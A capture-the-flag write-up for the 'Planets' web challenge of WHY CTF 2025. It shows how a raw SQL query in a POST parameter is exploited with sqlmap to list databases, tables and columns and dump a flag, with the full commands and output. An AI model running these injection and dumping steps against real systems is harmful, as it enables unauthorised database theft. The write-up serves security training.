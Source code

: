 ```yaml
---
name: Planets (2025)
event: WHY CTF 2025
category: Web
description: Writeup for Planets (Web) - WHY CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Planets

## Description

> I just started programming and created my [first website](http://planets.ctf.zone), an overview of all the planets in our solar system. Can you check if I didn't leave any security issues in it?

## Solution

We have a simple web page showing different planets.

![](images/0.PNG)

Checking the HTTP history, there is an interesting POST request to `/api.php` - the body contains an SQL query.

```sql
query=SELECT * FROM planets
```

The response has a JSON object containing all the planets and their properties. Of course, we suspect SQL injection and this was a quick one; we can run SQLMap to dump the database.

### SQL Injection

I start by copying the HTTP request content from burp into a file called `req`, then run SQLMap in batch mode (auto-answer questions).

```bash
sqlmap -r req --batch
```

We get a successful payload.

```bash
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: inline query
    Title: Generic inline queries
    Payload: query=SELECT (SELECT CONCAT(CONCAT('qvzqq',(CASE WHEN (4195=4195) THEN '1' ELSE '0' END)),'qpqvq')) FROM planets
---
```

Confirmation that the DB is MySQL.

```bash
[INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 8.0.0
```

Next, we can list the databases.

```bash
sqlmap -r req --batch --dbs

available databases [3]:
[*] information_schema
[*] performance_schema
[*] planets
```

We should check `planets` and see what tables it contains.

```bash
sqlmap -r req --batch -D planets --tables

+-------------------+
| abandoned_planets |
| planets           |
+-------------------+
```

The `abandoned_planets` table sounds interesting, we'll list the columns.

```bash
sqlmap -r req --batch -D planets -T abandoned_planets --columns

+-------------+------+
| Column      | Type |
+-------------+------+
| description | text |
| name        | text |
| id          | int  |
| image       | text |
+-------------+------+
```

Dump the interesting fields from the database.

```bash
sqlmap -r req --batch -D planets -T abandoned_planets -C name,description --dump

+--------+--------------------------------------------------------------------------------------------+
| name   | description                                                                                |
+--------+--------------------------------------------------------------------------------------------+
| Pluto  | Have you heard about Pluto? That's messed up right? flag{9c4dea2d8ae5681a75f8e670ac8ba999} |
+--------+--------------------------------------------------------------------------------------------+
```

We have our first flag 😼

Flag: `flag{9c4dea2d8ae5681a75f8e670ac8ba999}`
